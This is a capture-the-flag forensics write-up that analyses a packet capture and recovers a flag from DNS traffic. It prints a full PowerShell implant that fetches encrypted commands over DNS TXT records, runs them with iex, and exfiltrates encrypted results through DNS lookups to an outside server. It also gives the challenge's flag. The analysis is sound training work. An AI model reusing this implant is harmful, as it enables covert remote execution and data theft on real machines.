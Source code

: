 ## Skills involved: Packet analysis, DNS requests

We have got a .pcap package here that can be opened with [WireShark](https://www.wireshark.org/). As I have used WireShark before practising in PicoGym, I know that I can export all objects:

<img width="752" alt="image" src="https://user-images.githubusercontent.com/26480299/169632668-4d9b2f19-5d73-4e57-9b80-f7f42b60d881.png">

We're especially interested in the desktop.png because it's just a base64-encoded string. Upon decoding we have got our hands on some Powershell code:
```powershell
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
    $encryptedString = $out[$num].Strings[0]
    $backToPlainText = Decrypt-String $key $encryptedString
    $output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
    Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
    for ($ans = 0; $ans -lt $pr.length-1; $ans++){
        $domain = -join($pr[$ans],".windowsliveupdater.com")
        Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
    Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```

So it tells us to look at DNS records related to \*.windowsliveupdater.com.
- There is an initial TXT DNS record towards [windowsliveupdater.com], whose output is decrypted as commands to be run with `iex`.
- It is followed by 6 sections of start + hex of encoded messages + end DNS A record lookups, each containing the encrypted `$output`, the result of expression evaluation.

Following the steps revealed the 2 parts of the flag:
- The first part is the DefaultUser set in the 6th command: `JHBhcnQxPSdIVEJ7eTB1X2M0bl8n`, which is base64 for `$part1='HTB{y0u_c4n_'`. Note that you can right-click on the TXT record to copy the whole text without it being truncated.
- The second part is in the 5th response: `$part2=4utom4t3_but_y0u_c4nt_h1de}`.

![image](https://user-images.githubusercontent.com/26480299/169633654-4a231c7b-fd98-4de0-83a8-f0d1982ff5d3.png)

**Flag: HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}**
